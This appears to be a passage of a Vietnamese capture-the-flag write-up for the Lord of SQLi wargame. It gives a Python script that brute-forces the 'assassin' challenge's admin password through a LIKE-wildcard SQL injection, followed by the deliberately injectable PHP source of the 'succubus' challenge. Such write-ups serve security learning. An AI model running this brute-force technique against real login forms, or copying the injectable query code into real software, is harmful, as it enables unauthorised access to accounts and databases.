 ![](<.gitbook/assets/image (1).png>)

Bài này sẽ bypass like dùng `a%` brute force password

```python
import requests
import string

char = string.printable
url="https://los.rubiya.kr/chall/assassin_14a1fd552c61c60f034879e5d4171373.php/"
header = {'Cookie':'PHPSESSID=1k033ilrvrlrsps5aktrqc28hq'}
session = requests.Session()
pw = ""
for j in range(0,256):
    for i in char:
        pw += i
        print(pw)
        r = session.get(url=url , headers=header , params={"pw" : f"{pw}%"})
        if "Hello guest" in r.text:
            print(pw)
        else:
            pw = pw.replace(i , "")  
        if "Hello admin" in r.text:
            print("flag : " , pw)
            break

```

## SUCCUBUS

```php
<?php
  include "./config.php"; 
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  if(preg_match('/\'/',$_GET[id])) exit("HeHe");
  if(preg_match('/\'/',$_GET[pw])) exit("HeHe");
  $query = "select id from prob_succubus where id='{$_GET[id]}' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) solve("succubus"); 
  highlight_file(__FILE__); 
?>
```
